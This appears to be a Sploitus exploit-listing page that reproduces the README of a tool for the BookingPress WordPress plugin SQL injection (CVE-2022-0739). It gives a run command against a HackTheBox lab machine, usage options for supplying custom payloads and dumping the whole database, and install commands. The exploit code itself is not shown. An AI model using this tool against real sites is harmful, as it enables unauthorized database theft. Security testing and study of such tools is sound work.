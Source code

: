 ```yaml
---
title: Exploit for SQL Injection in Reputeinfosystems Bookingpress exploit
url: https://sploitus.com/exploit?id=957876F8-28CA-5ED8-9F25-16F1D36DD7B0&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-07
fetch_date: 2025-10-04T03:13:30.037967
---
```


# Exploit for SQL Injection in Reputeinfosystems Bookingpress exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for SQL Injection in Reputeinfosystems Bookingpress CVE-2022-0739

2023-01-06 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=957876F8-28CA-5ED8-9F25-16F1D36DD7B0
# CVE-2022-0739

My take on CVE-2022-0739 BookingPress exploit, based on [destr4ct](https://github.com/destr4ct/CVE-2022-0739)'s POC - just prettier.

## Example

Example usage against HackTheBox's MetaTwo machine, which hosts a WordPress with a vulnerable bookingpress plugin (version 1.0.10).

```bash
python booking-sqlinjector.py -u http://metapress.htb -nu http://metapress.htb/events/ -a -o db_dump
```

[![asciicast](https://asciinema.org/a/HeSO2mjs0g69V3a6KcvqwlM0P.svg)](https://asciinema.org/a/HeSO2mjs0g69V3a6KcvqwlM0P)

## Usage

```bash
usage: booking-sqlinjector.py [-h] -u URL [-o BASENAME] [-p PAYLOAD] [-a] [-v] (-n NONCE | -nu NONCE_URL)

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL of WordPress server with vulnerable plugin (http://example.domain)
  -o BASENAME, --out BASENAME
                        Output database schema and dump in JSON format
  -p PAYLOAD, --payload PAYLOAD
                        Payload to inject. Should start with ')'
  -a, --dump-all        Enables whole DB dump
  -v, --verbose         Enables verbose mode
  -n NONCE, --nonce NONCE
                        Nonce that you got as unauthenticated user
  -nu NONCE_URL, --nonce-url NONCE_URL
                        URL where nonce can be extracted (bookingprss form page)
```

## Installation

```bash
git clone https://github.com/viardant/CVE-2022-0739
cd CVE-2022-0739
pip install -r requirements.txt
```

## Disclaimer

TL:DR; For educational purposes only, do not break stuff that you don't own or have permission to pentest. If you use this program for any nefarious purposes, the cybersecurity gods may smite your computer with a malware so devastating, you'll wish you had just bought a Mac.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)